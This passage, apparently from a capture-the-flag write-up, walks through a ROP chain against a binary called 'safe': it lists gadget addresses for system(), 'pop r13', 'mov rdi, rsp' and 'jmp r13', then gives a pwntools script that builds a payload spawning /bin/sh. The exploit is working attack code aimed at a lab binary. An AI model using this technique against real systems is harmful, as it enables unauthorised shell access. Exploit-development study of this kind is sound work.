 Last but not least, we need the memory address of <kbd>system()</kbd>.

![safe-mem-system](safe-mem-system.png)

Let's check what we've got so far.

{{< highlight bash >}}
system()             @ 0x401040
mov rdi, rsp         @ 0x401156
jmp r13              @ 0x401159
pop r13, r14, r15    @ 0x401206
{{< / highlight >}}

Now we need to put all of them in the right order. First we will send our "120 Bytes" of
junk. Then the address of the <kbd>pop r13</kbd> instruction. It will "pop" the first value from the "stack" into "r13". We want <kbd>system()</kbd> to be in "r13". So the address to <kbd>system()</kbd> will be next. After <kbd>pop r13</kbd>, two more "pop's" will take place. We need to place two dummy values on the "stack" to account for that. Now we need to prepare the arguments for the <kbd>system()</kbd> call. So the address to <kbd>mov rdi, rsp</kbd> will be next, followed by the string <kbd>/bin/sh\x00</kbd>.

You might have noticed that the <kbd>jmp r13</kbd> doesn't need to be put into our "rop-chain" directly. It's the next instruction after <kbd>mov rdi, rsp</kbd> and will be executed after that. How nice. ;)

Let's put all of this into an exploit script.

{{< highlight python >}}
#!/usr/bin/python3
from pwn import *

# Stage 0
junk = b'A' * 120 # Overflow
cmd = b'/bin/sh\x00' # Argument

# ROP
pop = p64(0x401206) # pop r13
mov = p64(0x401156) # mov rdi, rsp

# RCE
fake = p64(0x000000) # dummy value for pop r14 and pop r15
system = p64(0x401040) # system address


# Create Payload
payload = junk + pop + system + fake + fake + mov + cmd

f = open("payload.txt", "wb")
f.write(payload)
{{< / highlight >}}
